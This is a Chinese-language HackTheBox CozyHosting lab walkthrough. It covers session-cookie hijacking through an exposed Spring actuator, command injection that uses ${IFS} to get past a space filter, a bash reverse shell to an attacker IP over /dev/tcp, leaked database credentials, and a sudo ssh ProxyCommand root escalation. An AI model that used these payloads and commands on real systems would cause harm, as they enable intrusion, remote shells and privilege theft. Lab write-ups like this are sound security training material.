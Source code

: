 ```yaml
---
title: HackTheBox-CozyHosting
date: 2025-3-27 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


## nmap

![image-20250327102833282](CozyHosting/image-20250327102833282.png)

## 80端口

### dirsearch

```shell
[10:25:17] 200 -  634B  - /actuator
[10:25:18] 200 -   10KB - /actuator/mappings 
[10:25:18] 200 -   15B  - /actuator/health
[10:25:18] 200 -    5KB - /actuator/env
[10:25:18] 200 -   48B  - /actuator/sessions 
[10:25:19] 401 -   97B  - /admin             
[10:25:19] 200 -  124KB - /actuator/beans     
[10:25:48] 500 -   73B  - /error
[10:26:05] 200 -    4KB - /login             
Task Completed  
```

`/actuator/sessions` 下有`kanderson`用户的session，并且每次错误登录都会在该页面下生成一个未认证的session

![image-20250328134909355](CozyHosting/image-20250328134909355.png)

将cookie替换为kanderson的cookie，即可成功访问kanderson的管理页面

![image-20250328135959933](CozyHosting/image-20250328135959933.png)

该功能应该是一个ssh连接的功能，输入本机的ip和root用户，提示连接超时，连接靶机本机试试

`hostname:localhost` `username:root`

![image-20250328140205526](CozyHosting/image-20250328140205526.png)

错误是验证失败，尝试拼接命令执行，以分号分割

在hostname中进行拼接显示无效的hostname，尝试在username中拼接，ping攻击机，攻击机监听icmp包，看是否真的进行命令执行

`hostname:localhost` `username:root;ping 10.10.16.3` 

![image-20250328140542035](CozyHosting/image-20250328140542035.png)

不能包含空格，尝试对空格进行编码

空格过滤绕过的方式有很多

> %20 %09 %0a %0b %0c %0d %0e %0f %a0 %00 /**/ /\*\!\*/
>
> 大括号绕过，如{ls,-l}
>
>  $IFS、$IFS&2、$IFS9、${IFS}
>
> 重定向字符< , <>

尝试之后只有${IFS}可以绕过

## 得到shell

`hostname`:`localhost` `Username`:`root;ping${IFS}10.10.16.3;`

![image-20250328141836128](CozyHosting/image-20250328141836128.png)

```shell
bash -c'bash -i &>/dev/tcp/10.10.16.3/443 >&1'

替换后的reverse shell
bash${IFS}-c${IFS}'exec${IFS}bash${IFS}-i${IFS}&>/dev/tcp/10.10.16.3/443${IFS}<&1'
```

查看进程下面有数据库，反编译jar包，在jar包中找到了数据库连接账号密码

![image-20250328161444685](CozyHosting/image-20250328161444685.png)

![image-20250328153245163](CozyHosting/image-20250328153245163.png)

```
psql -U postgres -h 127.0.0.1
```

![image-20250328161411095](CozyHosting/image-20250328161411095.png)

`admin:manchesterunited`

josh用户可以用这个密码登录，josh有ssh的sudo提权

[ssh | GTFOBins](https://gtfobins.github.io/gtfobins/ssh/#sudo)

```
提权代码

sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```